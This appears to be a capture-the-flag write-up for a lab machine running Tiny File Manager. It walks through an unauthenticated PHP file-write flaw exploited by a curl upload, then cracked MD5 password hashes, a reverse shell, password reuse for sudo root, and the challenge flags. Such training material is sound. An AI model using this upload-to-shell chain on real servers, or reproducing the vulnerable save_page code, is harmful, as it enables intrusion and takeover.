 # Checking the site

Visiting the ip:port in a browser <http://10.10.8.10:3123/> shows a `Tiny File Manager`.

![](screenshots/1.png)

# File Manager

The source is available at <https://github.com/prasathmani/tinyfilemanager>.

![](screenshots/2.png)

The defualt credentials work, but only for read-only access. This can still be used for looking around what else is on the server.

The following files can be found. 

# Admin panel

A custom admin panel without a backend database, but there is a corresponding backup.

The `admin/ajax.php` file.

```php
<?php
...
$action = $_GET['action'];
include 'admin_class.php';
$crud = new Action();
...
if($action == "save_page"){
	$save = $crud->save_page();
	if($save)
		echo $save;
}
 
if($action == "save_page_img"){
	$save = $crud->save_page_img();
	if($save)
		echo $save;
}
...
?> 
```

The `admin/admin_class.php` file.

```php
<?php
...
Class Action {
	private $db;
 
	public function __construct() {
		ob_start();
   	include 'db_connect.php';
    
    $this->db = $conn;
	}
	function __destruct() {
	    $this->db->close();
	    ob_end_flush();
	}
...
	function save_page(){
		extract($_POST);
		// if()
		if(!empty($page_content)){
			$save = file_put_contents('../'.$filename, $page_content);
			if($save)
				return 1;
		}else{
			$fh = fopen('../'.$filename, 'w' );
			fclose($fh);
				return 1;
		}
	}
...
}
?> 
```

Based on the 2 php files above, any file can be uploaded, there is no authentication. The php files uploaded are executable.

```bash
curl -v -X POST 'http://10.10.8.10:3123/admin/ajax.php?action=save_page' -d "filename=test.php&page_content=it works<?php phpinfo();?>" 
```

# Database backup

The database backup `database/college_website_db.sql`.

```sql
INSERT INTO `users` (`id`, `name`, `username`, `password`, `type`) VALUES
(1, 'Administrator', 'admin', '0192023a7bbd73250516f069df18b500', 1);

--INSERT INTO `users` (`id`, `name`, `username`, `password`, `type`) VALUES
--(2, 'Apollo', 'apollo', '64024c4afaac000b12ddcd2e0c51512b', 1);
```

The md5 hashes can be recovered: `admin123` and `apollo13`.

# Shell

Our favuourite web/reverse shell can be used for unrestricted code after the upload. The flag is in `apollo`'s home directory.

![](screenshots/3.png)

# Flag local
{HCSC}-L0c@l_Fl4G:Ap0llo

# Apollo

Checking the users, `apollo` can be found. Also the local flag was there. Using the password `apollo13` from the database backup works. The user also has sudo rights. The flag is in the `/root/` directory.

![](screenshots/4.png)

# Flag root
{HCSC}-Ro07:Fl4G_oN$Ap0llO

# Spoiler

Apollo has users on other challenges. His admin password is reused later, but there is an ssh key pair in his home folder.

![](screenshots/5.png)